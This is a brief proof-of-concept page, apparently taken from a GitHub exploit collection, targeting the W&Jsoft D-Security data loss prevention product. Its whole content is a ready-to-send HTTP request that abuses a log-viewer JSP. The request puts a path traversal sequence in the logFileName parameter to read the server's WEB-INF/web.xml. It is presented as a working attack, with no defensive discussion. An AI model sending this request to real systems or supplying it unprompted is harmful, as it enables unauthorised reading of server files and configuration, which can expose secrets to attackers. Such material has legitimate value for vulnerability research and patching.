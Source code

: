 # W-Jsoft-D-Security_fileread

product: W&Jsoft-D-Security数据仿泄露系统
from: https://github.com/wy876/POC/blob/main/WNJsoft/W&Jsoft-D-Security%E6%95%B0%E6%8D%AE%E4%BB%BF%E6%B3%84%E9%9C%B2%E7%B3%BB%E7%BB%9F(DLP)%E5%AD%98%E5%9C%A8%E4%BB%BB%E6%84%8F%E6%96%87%E4%BB%B6%E8%AF%BB%E5%8F%96%E6%BC%8F%E6%B4%9E.md

```
GET /DLP/public/admintool/system_setting/sys_ds_logfile_displaylog.jsp?logType=tomcat&logFileName=../../../../../../D-Security/webapps/DLPWebApps/WEB-INF/web.xml HTTP/1.1
Host: 
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Language: zh-CN,zh;q=0.8,zh-TW;q=0.7,zh-HK;q=0.5,en-US;q=0.3,en;q=0.2
Priority: u=0, i
Accept-Encoding: gzip, deflate
User-Agent: Mozilla/5.0 (Macintosh; Intel Mac OS X 10.15; rv:133.0) Gecko/20100101 Firefox/133.0
Upgrade-Insecure-Requests: 1
```
